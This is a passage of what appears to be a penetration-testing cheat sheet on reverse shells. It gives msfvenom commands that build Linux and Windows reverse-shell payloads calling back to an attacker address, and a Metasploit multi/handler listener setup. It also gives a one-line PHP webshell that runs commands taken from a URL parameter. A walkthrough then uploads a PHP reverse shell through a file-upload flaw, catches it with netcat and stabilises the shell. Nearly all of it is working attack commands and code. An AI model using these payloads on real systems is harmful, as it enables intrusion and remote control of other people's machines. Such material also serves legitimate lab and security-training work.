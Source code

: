 ### Msfvenom
- **Stageless**:
  ```bash
  msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443
  ```
- **Staged Meterpreter**:
  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.5 LPORT=443
  ```

### Metasploit
- **Multi/Handler**:
  ```bash
  msfconsole
  use multi/handler
  set PAYLOAD <payload>
  set LHOST 10.10.10.5
  set LPORT 443
  exploit -j
  sessions <number>
  ```

### Webshells
- **PHP**:
  ```php
  <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
  ```

---

## 10. Example Scenarios

### Scenario 1: Linux Webserver PHP Reverse Shell
- **Context**: File upload vulnerability on a Linux webserver.
- **Steps**:
  1. Edit `/usr/share/webshells/php/php-reverse-shell.php`:
     ```php
     $ip = '10.10.10.5';
     $port = 443;
     ```
  2. Listener:
     ```bash
     sudo nc -lvnp 443
     ```
  3. Upload and access: `http://target.com/uploads/rshell.php`.
  4. Stabilize:
     ```bash
     python3 -c 'import pty;pty.spawn("/bin/bash")'
     export TERM=xterm
     # Ctrl+Z
     stty raw -echo; fg
     ```
